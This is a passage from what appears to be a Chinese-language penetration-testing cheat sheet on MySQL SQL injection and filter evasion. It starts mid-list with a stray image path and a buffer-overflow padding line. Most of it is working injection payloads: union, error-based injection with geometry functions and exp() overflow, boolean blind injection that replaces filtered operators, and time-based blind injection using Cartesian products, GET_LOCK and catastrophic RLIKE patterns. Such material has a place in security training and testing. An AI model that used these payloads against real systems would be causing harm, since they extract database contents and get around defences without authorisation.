     6. 缓冲区溢出
    比如：
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA..... 再拼接恶意SQL
    ```
    
2. 分类绕过
    
    ```java
    1. 联合注入
    Order by -> 1′ group by 1,2,3,4#
    数据类型不匹配时；也就是说代码里面写的是查数字型但是SQL写的传入的字符型就会报错，
    这个时候可以将列的占位换位null或者十进制十六进制的数字
    
    2. 报错注入
    报错函数被禁时考虑替换为几何函数：
    geometrycollection()
    multipoint()
    polygon()
    multipolygon()
    linestring()
    multilinestring()
    ST_LatFromGeoHash() (MySQL >= 5.7)
    ST_LongFromGeoHash() (MySQL >= 5.7)
    
    1′ AND ST_LatFromGeoHash(concat(0x7e,(select database()),0x7e))
    1′ AND multipoint((select * from (select * from (select version())a)b))
    
    数据溢出：exp()（指数函数），一个大数参数会导致DOUBLE value is out of range错误
    1′ AND exp(~(select * from (select version())a))
    
    3. 布尔盲注
    if() 被过滤：case when ... then ... else ... end
    1′ and case when (ascii(substr(database(),1,1))>100) then sleep(2) else 0 end
    
    and/or被过滤：
    使用&& 和 || （需URL编码为%26%26和%7c%7c）
    使用^ (异或) 进行逻辑判断： 1′ ^ (ascii(substr(database(),1,1))>100)^0
    
    4. 时间盲注
    笛卡尔积延时：海量查询大量计算
    1' AND IF((ascii(substr(database(),1,1)) > 100), (SELECT count(*) FROM
     information_schema.columns A, information_schema.columns B,
      information_schema.columns C), 0)
    //ABC可以都换为information_schema.columns
    
    GET_LOCK() 竞争延时：死锁等待，需要两个数据库连接
    占锁：
    1' AND GET_LOCK('my_lock', 10) //锁的名字，随便
    盲注测试：
    1' AND IF((ascii(substr(database(),1,1)) > 100), GET_LOCK('my_lock', 10), 0)
    
    RLIKE / REGEXP 延时：复杂表达式达成大量计算
    1' AND IF((ascii(substr(database(),1,1)) > 100), 
    (SELECT RPAD('a',5000,'a') RLIKE '(a.*)*b'), 0)
    ```
    